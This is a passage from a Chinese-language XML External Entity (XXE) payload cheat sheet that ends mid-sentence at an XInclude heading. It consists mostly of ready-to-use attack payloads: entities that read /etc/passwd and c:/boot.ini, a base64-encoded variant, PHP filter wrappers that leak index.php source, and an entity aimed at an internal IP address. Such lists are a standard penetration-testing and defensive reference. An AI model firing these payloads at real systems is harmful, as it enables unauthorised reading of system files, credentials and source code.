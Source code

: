 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM`和`PUBLIC`几乎是同义词。

```xml
<!ENTITY % xxe PUBLIC "随机文本" "URL">
<!ENTITY xxe PUBLIC "任意文本" "URL">
```

### Base64编码的XXE

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP包装器中的XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude攻击

当无法修改**DOCTYPE**元素时，使用**XInclude**来定位
